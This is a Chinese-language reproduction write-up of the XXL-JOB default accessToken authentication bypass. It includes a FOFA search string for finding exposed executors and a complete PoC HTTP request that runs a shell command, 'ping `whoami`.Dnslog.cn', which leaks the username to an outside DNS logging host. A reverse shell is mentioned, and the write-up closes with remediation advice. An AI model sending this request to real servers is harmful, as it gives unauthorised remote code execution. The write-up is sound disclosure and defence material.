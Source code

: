 
# XXL-JOB 默认 accessToken 身份绕过漏洞复现

### 0x01 产品简介

  [XXL-JOB](https://so.csdn.net/so/search?q=XXL-JOB&spm=1001.2101.3001.7020) 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。

### 0x02 漏洞概述

     XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是[随机生成](https://so.csdn.net/so/search?q=%E9%9A%8F%E6%9C%BA%E7%94%9F%E6%88%90&spm=1001.2101.3001.7020)的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。

XXL-JOB 之前版本 accessToken 的值都为空，2.3.1 后才出现默认值，如下：

![](assets/1699250015-cb819a2c5bbd673a302156996bb9daa6.png)

### 0x03 影响范围

     xxl-job-2.3.1、2.4.0 版本

### 0x04 复现环境

FOFA："invalid request, HttpMethod not support" && port="9999"

![](assets/1699250015-427a2cf5d4e589f0d4d17d1e3112487b.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /run HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default token
Upgrade-Insecure-Requests: 1


{
"jobId": 3,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "SERIAL_EXECUTION",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586373637819,
"glueType": "GLUE_SHELL",
"glueSource": "ping `whoami`.Dnslog.cn",
"glueUpdatetime": 1586693836766,
"broadcastIndex": 0,
"broadcastTotal": 0
}
```

PS：每执行一次就需要更换请求体中 jobId 的值

![](assets/1699250015-c095ecbba83f6761216178013771c2e3.png)

![](assets/1699250015-1f6f84c859bb6e2087fcce24b9c05688.png)

**反弹 shell**

![](assets/1699250015-bb0ff5eaa3874cefab77d779f28a8254.png)![](assets/1699250015-17e293d816555990ddb76bf29461868f.png)

### 0x06 修复建议

**官方修复方案**：

修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值：  
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89

使用 accessToken 时设置强 accessToken 或随机 accessToken 。

**临时修复方案：**  
使用防护类设备对相关资产进行防护；  
避免将 XXL-JOB 的执行器暴露在互联网。
